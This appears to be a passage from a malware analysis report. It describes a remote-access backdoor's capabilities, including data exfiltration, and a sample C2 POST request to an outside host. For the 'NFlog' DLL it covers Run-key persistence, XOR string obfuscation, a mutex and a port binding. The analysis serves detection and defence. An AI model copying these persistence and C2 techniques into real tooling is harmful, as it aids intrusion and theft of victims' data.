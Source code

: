 Modify sleep timer between requests
Execute a command and return the command output
Browse the file system
Download files
Delete files
Exfiltrate victim information

An example HTTP POST request can be seen below.





POST / HTTP/1.1
Accept: */*
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0;
.NET CLR  1.1.4322)
Host: https.reweblink.com:443
Content-Length: 48
Cache-Control: no-cache
 
[encrypted binary data]




123456789

POST / HTTP/1.1Accept: */*User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0;.NET CLR  1.1.4322)Host: https.reweblink.com:443Content-Length: 48Cache-Control: no-cache [encrypted binary data]





NFlog
When loaded inside of a running process, NFlog begins by spawning a new thread. This new thread is responsible for all malicious activities produced by this DLL. Initially, the malware will set the following registry key:





HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\update : [current_executable_filename]




1

HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\update : [current_executable_filename]





Where [current_executable_filename] is the path to the current running executable, which is acquired via a call to GetModuleFileNameA. This registry key ensures that the malware will persist across reboots when the current user logs in.
Multiple string obfuscation routines are included in this malware sample. Strings contained in the binary are decrypted via a simple binary XOR against a single byte key of 0x25.
The malware proceeds to create a named event object of 'GoogleZCM' and uses this event in order to ensure only one instance of this malware is running at a given time.
The malware proceeds to make an attempt at binding to the local host on port 1139.
The malware attempts to ensure Internet connectivity by making a request to www.microsoft.com. An example request is shown below.
